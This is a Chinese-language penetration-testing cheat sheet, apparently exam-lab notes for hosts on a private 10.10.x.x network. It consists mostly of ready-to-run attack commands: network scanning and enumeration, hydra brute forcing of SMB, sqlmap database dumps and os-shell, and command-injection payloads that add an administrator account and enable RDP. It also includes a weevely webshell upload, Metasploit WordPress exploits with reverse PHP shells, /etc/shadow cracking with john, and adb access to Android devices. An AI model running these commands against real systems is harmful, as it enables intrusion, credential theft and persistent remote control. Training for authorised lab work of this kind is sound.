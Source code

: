 ### 掃描與列舉

<details>
  <summary>使用NMAP掃描網路</summary>
  
  ``` console
  nmap -sn 10.10.10.*
  nmap -sn 10.10.10.* --packet-trace
  nmap -sn scanme.nmap.org --packet-trace
  ```
</details>

<details>
  <summary>使用NMAP掃描主機</summary>

  ```console
  nmap 10.10.10.9
  nmap 10.10.10.9 --reason
    最常用的1000個端口/usr/share/nmap/nmap-services
  nmap 10.10.10.9 -p-
  nmap 10.10.10.16 -sU -p53,137-139,161,1900,5353
  nmap -p80 10.10.10.*
  nmap -p80 10.10.10.2,10,13 --reason
  nmap -p80 10.10.10.* --open
  ```
</details>

<details>
  <summary>使用NMAP識別作業系統與服務</summary>

  ```console
  nmap 10.10.10.16 -O
  nmap 10.10.10.16 -sV
  nmap 10.10.10.16 -sVC -p445,3389
  nmap 10.10.10.16 -sV -O -sC -Pn -p445,3389,389,3268
    for windows
  ```
</details>

<details>
  <summary>列舉常見網路服務</summary>

  ```console
  nmap -sU -p161 --open 10.10.10.*
  nmap -sU -p161 -sC 10.10.10.*
  snmp-check 10.10.10.16
  nmap -sU -p161 --script snmp-win32-users 10.10.10.16
  nbtscan 10.10.10.1-254
  enum4linux 10.10.10.16
  hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
  hydra -l jason -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
    smb可換rdp
  enum4linux -u martin -p apple -a 10.10.10.16
    -a可替換-S -U -P
  python3 -m pip install --upgrade impacket
  crackmapexec smb 10.10.10.16 -u martin -p apple --shares
  ```
</details>

### 掃描與攻擊網頁程式

- 參數串改攻擊
<details>
  <summary>MSSQL隱碼攻擊</summary>

  ```console
  sqlmap -u "url" --cookie="<cookie>" 
  sqlmap -u "url" --cookie="<cookie>" --dbs 
  sqlmap -u "url" --cookie="<cookie>" -D dbname --tables 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users --columns --technique=B 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump --technique=B 
  sqlmap -u "url" --cookie="<cookie>" --os-shell
  ```
</details>

- MySQL盲隱碼攻擊

<details>
  <summary>命令注入攻擊</summary>

  ```console
  | whoami
  | net user cehp /add
  | net users
  | net localgroup Administrators cehp /add
  | net localgroup Administrators
  | reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  | netstat -an | findstr :3389
  ```
</details>

<details>
  <summary>Webshell上傳攻擊</summary>

  ```console
  weevely generate cehp backdoor.php
  weevely http://10.10.10.16:8080/dvwa/hackable/uploads/backdoor.php cehp
  whoami
  ```
</details>

<details>
  <summary>利用WPScan破解WordPress使用者密碼</summary>

  ```console
  whatweb http://10.10.10.16:8080/ceh
  wpscan --url http://10.10.10.16:8080/ceh -e u
  wpscan --url http://10.10.10.16:8080/ceh -P /usr/share/wordlists/nmap.lst
  ```
</details>

<details>
  <summary>利用Metasploit攻擊WordPress網站</summary>

  ```console
  sudo service postgresql start
  msfconsole
  use exploit/unix/webapp/wp_admin_shell_upload
  show info
  set rhosts 10.10.10.16
  set rport 8080
  set targeturi /ceh
  set username admin
  set password qwerty@123
  set payload php/reverse_php
  exploit
  whoami
  ```
</details>

- 安裝WordPress

<details>
  <summary>利用外掛漏洞攻擊WordPress網站</summary>

  ```console
  wpscan --url http://10.10.10.16:8080/ceh
  sudo service postgresql start
  msfconsole
  use exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload
  show info
  set rhosts 10.10.10.16
  set rport 8080
  set targeturi /ceh
  set username cehuser1
  set password green
  set payload php/reverse_php
  exploit
  whoami
  ```
</details>

```console
ls /etc/passwd /etc/shadow
mkdir unix
cp /etc/passwd unix/passwd
cp /etc/shadow unix/shadow
ls unix/

unshadow unix/passwd unix/shadow > unix/pwdump.txt
john unix/pwdump.txt
john unix/pwdump.txt --show

網站
crackstation.net
gchq.github.io/CyberChef/
md5cal.com
github.com/orsicq/DIE-engine

ftp 10.10.10.10
jason
qwerty
get Flag.txt
```
```console
android

nmap -p5555 10.10.1.3-254 --open
adb connect 10.10.1.14:5555
adb devices
adb shell

su
find / -name images.jpeg 2> /dev/null

sha384sum /data/media/0/Download/images.jpeg

mkdir /sdcard/data
cp /data/media/0/Download/images.jpeg /sdcard/data
ls /sdcard/data
exit
exit

adb pull /sdcard/data/images.jpeg
ls images.jpeg
```

